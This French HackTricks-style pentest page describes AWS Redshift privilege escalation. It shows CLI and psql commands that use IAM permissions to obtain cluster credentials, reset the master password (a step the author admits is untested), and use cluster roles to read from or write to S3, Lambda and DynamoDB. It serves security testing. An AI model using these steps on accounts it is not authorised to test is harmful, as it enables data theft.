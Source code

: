 # AWS - Privilège d'escalade Redshift

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Redshift

Pour plus d'informations sur RDS, consultez :

{% content-ref url="../aws-services/aws-databases/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-databases/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Avec ces autorisations, vous pouvez obtenir des **informations sur tous les clusters** (y compris le nom et le nom d'utilisateur du cluster) et **obtenir des informations d'identification** pour y accéder :

```bash
# Obtenir des informations d'identification
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connectez-vous, même si le mot de passe est une chaîne base64, c'est le mot de passe
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```

**Impact potentiel :** Trouver des informations sensibles dans les bases de données.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Avec ces autorisations, vous pouvez obtenir des **informations sur tous les clusters** et **obtenir des informations d'identification** pour y accéder.\
Notez que l'utilisateur postgres aura les **autorisations que l'identité IAM** utilisée pour obtenir les informations d'identification a.

```bash
# Obtenir des informations d'identification
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connectez-vous, même si le mot de passe est une chaîne base64, c'est le mot de passe
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```

**Impact potentiel :** Trouver des informations sensibles dans les bases de données.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Il est possible de **modifier le mot de passe principal** de l'utilisateur postgres interne (redshit) depuis aws cli (je pense que ce sont les autorisations dont vous avez besoin, mais je ne les ai pas encore testées) :

```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```

**Impact potentiel :** Trouver des informations sensibles dans les bases de données.

## Accès aux services externes

{% hint style="warning" %}
Pour accéder à toutes les ressources suivantes, vous devrez **spécifier le rôle à utiliser**. Un cluster Redshift **peut avoir une liste de rôles AWS** que vous pouvez utiliser **si vous connaissez l'ARN** ou vous pouvez simplement définir "**default**" pour utiliser celui par défaut assigné.

De plus, comme [**expliqué ici**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift permet également de concaténer des rôles (tant que le premier peut assumer le second) pour obtenir un accès supplémentaire, mais en les **séparant** par une **virgule** : `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

Comme expliqué dans [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html), il est possible d'**appeler une fonction lambda depuis redshift** avec quelque chose comme :

```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT) 
RETURNS INT 
STABLE 
LAMBDA 'lambda_function' 
IAM_ROLE default;
```

### S3

Comme expliqué dans [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), il est possible de **lire et d'écrire dans des buckets S3** :

```sql
# Lire
copy table from 's3://<your-bucket-name>/load/key_prefix' 
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Écrire
unload ('select * from venue')   
to 's3://mybucket/tickit/unload/venue_' 
iam_role default;
```

### Dynamo

Comme expliqué dans [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html), il est possible de **récupérer des données de dynamodb** :

```sql
copy favoritemovies 
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```

{% hint style="warning" %}
La table Amazon DynamoDB qui fournit les données doit être créée dans la même région AWS que votre cluster, sauf si vous utilisez l'option [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) pour spécifier la région AWS dans laquelle se trouve la table Amazon DynamoDB.
{% endhint %}

### EMR

Consultez [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)